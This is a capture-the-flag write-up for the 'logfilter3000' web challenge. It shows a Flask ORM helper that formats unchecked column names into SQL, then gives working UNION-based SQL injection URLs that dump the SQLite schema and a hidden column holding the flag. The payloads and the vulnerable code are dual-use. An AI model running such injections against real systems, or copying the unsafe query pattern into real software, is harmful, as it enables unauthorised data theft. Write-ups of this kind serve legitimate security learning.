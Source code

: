 Web: logfilter3000
------------------

Challenge description:


```
I made this really cool log-viewer application! I used an ORM so its SUPER secure.

challenges.openctf.cat:9008
```

We were given the source code of a small log-viewer. The application is written in Python. It uses the Flask framework and SQLite as a database. The supplied source code was incomplete and didn't work out of the box. Some of the code was missing. While trying to get the application to run locally we noticed a SQL injection issue:

```python
def format_where(self, safe=True):
    where_fmts = []
    for key, val in self._where.items():
        if safe: 
            where_fmts.append("{} = ?".format(key))
        else:
            where_fmts.append("{} = {}".format(key, repr(val)))

    if where_fmts:
        return " WHERE " + " AND ".join(where_fmts)
    return ""
```

The `key` variable is not verified and we can inject into the SQL query.

We leaked the table schema and noticed a hidden field:

```sql
http://challenges.openctf.cat:9008/?sev=999&1 union select 1,2,3,sql from sqlite_master where 'null' =null

CREATE TABLE log_entry ( id INTEGER PRIMARY KEY, sev INTEGER, message TEXT, type TEXT, time INTEGER, hidden TEXT )
```

To leak the flag:

```
http://challenges.openctf.cat:9008/?sev=999&1 union select 1,hidden,3,%274%27 from log_entry where 'null' =null

flag{th3_k37_t0_g00d_sq1_1nj3ti0n}
```
